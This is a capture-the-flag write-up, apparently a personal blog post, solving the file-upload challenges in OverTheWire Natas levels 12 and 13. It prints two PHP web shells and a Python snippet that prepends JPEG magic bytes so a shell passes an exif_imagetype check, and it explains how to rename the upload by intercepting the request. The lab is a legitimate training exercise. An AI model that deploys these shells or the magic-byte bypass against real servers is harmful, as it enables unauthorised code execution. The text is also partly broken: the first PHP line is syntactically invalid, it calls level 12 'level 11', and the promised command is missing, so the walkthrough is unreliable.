 ```yaml
---
layout: post
title: Natas 12 & 13 writeup
date: 2019-03-24
author: th3-3inst3in
categories: overthewire
tags: [web,overthewire]
---
```


## Natas 12

Visit this [link](http://natas12.natas.labs.overthewire.org/) to go to level 11 for which you’ll need the password from the previous level.

You'll land on a page where you can upload a file. Our objective here to upload a php file and get code execution.

The problem is that even if you upload a php file it gets renamed in to a jpg file so we need to intercept the request and change the file extension.

* First name a simple file with the following content

```php
<?php system($_GET['cmd'];) ?>
```

select the file and intercept the request and change the extenion to php as shown in the picture

![intercept](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas12intercept.png)

After the file is uploaded you'll be given a link looking something like this 

http://natas12.natas.labs.overthewire.org/upload/<random string>.php

You now have code execution on the server and can simply get the flag with the folloing command


![intercept](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas12flag.png)




## Natas 13

Level 13 is quite similar to 12 with one minor change 

Even if we use the trick we did in the last level we don't get the php file to execute on the server reason is the folloing line of code 


```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```

* exif_imagetype() basically checks the first few bytes of the file to verify its type.
This is a very common way of validating uploaded files you can read more about this function on php.net forms.

The following python code can help bypass this check

```python
>>> fh = open('shell.php', 'w')
>>> fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
>>> fh.close()
```

The above code basically makes a file which contains the passthru() function to execute commands on the server but the first few bytes of the file will make it seem like its a valid image and hense will bypass the check .
Upload the file and  vola we have your shell.

![13 flag](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas13flag.png)
